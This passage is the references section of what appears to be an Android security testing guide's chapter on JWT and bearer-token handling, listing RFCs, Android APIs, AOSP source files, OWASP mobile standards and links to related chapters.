- **RFC 7518 — JSON Web Algorithms (JWA).** The algorithm registry, including **§3.2's
  requirement that an HMAC key be at least as long as the hash output**.
- **RFC 7638 — JWK Thumbprint.** Required members only, lexicographic order, no whitespace.
  The DPoP `cnf.jkt` value.
- **RFC 4648 §5 — base64url.** Two characters and the padding rule.

### 14.2 RFCs — the security guidance

- **RFC 8725 — JSON Web Token Best Current Practices.** *The* document for this chapter.
  §3.1 (do not trust `alg`), §3.2 (use algorithm allow-lists), §3.5 (key entropy), §3.8
  (ignore `jku`/`jwk`), §3.9 (validate expiry), §3.11 (be strict about encoding). If you
  read one reference, read this.
- **RFC 6750 — Bearer Token Usage.** Defines `Authorization: Bearer` and is explicit about
  what bearer semantics cost.
- **RFC 9449 — DPoP.** Sender-constraining at the application layer. §4.2 (the proof's
  claims), §4.3 (what the server checks), §8 (nonces).
- **RFC 8705 — OAuth 2.0 Mutual-TLS.** Certificate-bound tokens and `cnf["x5t#S256"]`.
- **RFC 7800 — Proof-of-Possession Key Semantics.** Defines the `cnf` claim itself.
- **RFC 7009 — Token Revocation.** The endpoint logout should be calling.
- **RFC 7662 — Token Introspection.** How a resource server validates an opaque token.
- **RFC 9068 — JWT Profile for Access Tokens.** `typ: at+jwt`, the required claims, and the
  explicit statement that the resource server must validate `aud`.
- **RFC 8693 — Token Exchange.** Delegation and impersonation, and where scope escalation
  hides.
- **draft-ietf-oauth-security-topics — OAuth 2.0 Security Best Current Practice.** The
  refresh-token guidance (rotation with reuse detection, or sender-constraining) that
  [45-OAuth §3.8](../45-OAuth/README.md) cites this chapter for.

### 14.3 Android platform

- **`android.util.Base64`** — `URL_SAFE`, `NO_WRAP`, `NO_PADDING`. All three are needed for
  JOSE; the developer documentation lists the flags and their values.
- **`android.accounts.AccountManager`** — the shared token store, its account-type model,
  and `getAuthToken`'s permission behaviour.
- **Jetpack Security (`androidx.security:security-crypto`)** — `EncryptedSharedPreferences`
  and `MasterKey`. Note the API 23 floor and the Tink dependency.
- **Android Keystore system** — `KeyGenParameterSpec`, `setIsStrongBoxBacked`,
  `setUserAuthenticationRequired`, and `KeyInfo.getSecurityLevel()`.
- **Auto Backup and `dataExtractionRules`** — the two sections, `cloud-backup` and
  `device-transfer`, and why excluding one is not enough.

### 14.4 AOSP source

- `frameworks/base/core/java/android/util/Base64.java` — the encode and decode tables; the
  URL-safe alphabet differs in exactly two entries.
- `frameworks/base/core/java/android/accounts/AccountManager.java`
- `frameworks/base/services/core/java/com/android/server/accounts/AccountManagerService.java`
  — the grants model and the CE/DE database split.
- `frameworks/base/core/java/android/accounts/AbstractAccountAuthenticator.java`
- `frameworks/base/core/java/android/app/SharedPreferencesImpl.java` — `apply()` versus
  `commit()`, and the `.bak` file `writeToFile` leaves behind.

### 14.5 OWASP

- **MASVS-AUTH-1/2/3** — server-side enforcement, local authentication binding, step-up.
- **MASVS-STORAGE-1/2** — storage and unintended leakage.
- **MASTG** — the session management and credential confidentiality test cases. Cite the
  current identifiers from the live site; the project renumbers between major versions.
- **OWASP JSON Web Token Cheat Sheet** — a good, current summary of the failure classes in
  §5.

### 14.6 Related chapters

| Chapter | Why you would go there |
|---|---|
| [45-OAuth](../45-OAuth/README.md) | How the token was obtained: grants, PKCE, redirect handling, scheme hijacking |
| [34-Cryptography](../34-Cryptography/README.md) | The primitives underneath the signature, and what a "hardcoded key" finding is actually worth |
| [49-KeyStore](../49-KeyStore/README.md) | Where the key that wraps the token store lives, and the extraction-versus-use distinction |
| [33-Storage](../33-Storage/README.md) | Where the token lands on disk, the WAL, backups, and reachability analysis |
| [35-SSL](../35-SSL/README.md) | Reading the token off the wire in the first place |
| [21-App-Sandbox](../21-App-Sandbox/README.md) | Why another app usually cannot read the token store |
| [43-WebView](../43-WebView/README.md) | Tokens injected into a page or `localStorage` |
| [53-Frida](../53-Frida/README.md) | The instrumentation behind `token-hooks.js` |
| [52-StaticAnalysis](../52-StaticAnalysis/README.md) | Sweeping an app for token handling, and why a sweep produces leads rather than findings |
| [71-OWASP-Mobile](../71-OWASP-Mobile/README.md) | Mapping these findings to MASVS controls and writing them up |
| [79-Glossary](../79-Glossary/README.md) | Bearer token, JWT, DPoP — the one-line definitions |

---

Back to [the repository index](../README.md) · [cheat sheet](cheatsheet.md) ·
[mind map](mindmap.md) · [FAQ](faq.md) · [references](references/README.md)
